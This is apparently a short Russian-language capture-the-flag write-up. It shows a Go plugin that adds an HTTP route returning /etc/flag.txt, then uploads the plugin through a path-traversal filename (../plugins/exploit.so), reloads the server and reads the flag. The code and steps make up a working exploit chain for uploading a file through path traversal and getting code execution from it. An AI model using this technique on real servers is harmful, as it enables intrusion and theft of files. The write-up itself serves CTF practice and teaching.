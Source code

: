 На сайте есть поддержка плагинов.

Создаём свой плагин примерно с таким содержанием

```go
package main

import (
	"net/http"
	"os"
)

var Name = "Exploit"
var Version = "1.0"

func pwn(w http.ResponseWriter, r *http.Request) {
	data, _ := os.ReadFile("/etc/flag.txt")
	w.Write(data)
}

func OnEnable(){
	http.HandleFunc("/pwn3d_by_g4l4g0sh1n", pwn)
}
```

Компилируем как .so плагин и загружаем в роут `/upload?filename=../plugins/exploit.so`

Переходим на `/reload`

Переходим на `/pwn3d_by_g4l4g0sh1n` и забираем флаг
